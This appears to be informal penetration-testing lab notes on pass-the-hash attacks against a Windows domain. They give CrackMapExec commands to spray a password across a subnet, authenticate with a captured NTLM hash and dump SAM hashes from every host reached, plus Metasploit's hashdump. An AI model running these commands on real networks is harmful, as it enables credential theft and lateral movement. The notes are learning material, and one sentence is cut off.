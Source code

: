 What if we got the SAM hashes for the account.
	one way we can crack the hash, if the password was weak. but the other way we can pass the hash to accounts

#Tools Crackmapexec:
`crackmapexec smb 10.0.0.0/24 -u fcastle -d MARVEL.local -p Password1`

if we are on metasploit with the machine session.
`hashdump` - to collect the 


CrackmapExec:
Pass the hash will works with NTLM v1
relay only will works at - NTLM v2

`crackmapexec smb 192.168.138.0/24 -u administrator -H *HASH* --local-auth`

while we passing the hash to other admin accounts, if it gets a successful login. it will get us a all SAM hashes for machines below .

`crackmapexec smb 192.168.138.0/24 -u administrator -H *HASH* --local-auth --sam` - pull all the hashes

